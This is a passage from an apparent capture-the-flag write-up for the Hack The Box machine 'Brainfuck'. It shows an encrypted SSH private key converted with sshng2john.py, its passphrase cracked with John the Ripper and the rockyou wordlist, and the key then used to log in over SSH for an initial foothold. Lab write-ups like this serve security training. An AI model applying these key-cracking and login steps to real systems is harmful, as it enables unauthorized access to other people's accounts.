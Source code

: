 We can attempt to use John the Ripper to decrypt it, but we first have to convert it into the JtR format using the sshng2john.py script:

```python
python2 sshng2john.py /home/kali/Desktop/results/$IP/exploit/id_rsa > /home/kali/Desktop/results/$IP/exploit/ssh_key
```

We then use JtR on the generated file:

```python
john ssh_key --wordlist=/usr/share/wordlists/rockyou.txt
```

![Untitled](BrainFuck%20b73ddd20a6e54042819338e539ee0869/Untitled%2037.png)

This gives us that the password for the ssh key is: “3poulakia!”

Finally, we can change the permissions for the key using:

```python
chmod 600 id_rsa
```

# Initial Foothold

We are now ready to ssh onto the machine, using the following command and entering the above password when prompted:

```python
ssh -i id_rsa orestis@brainfuck.htb
```

This gives us a shell:
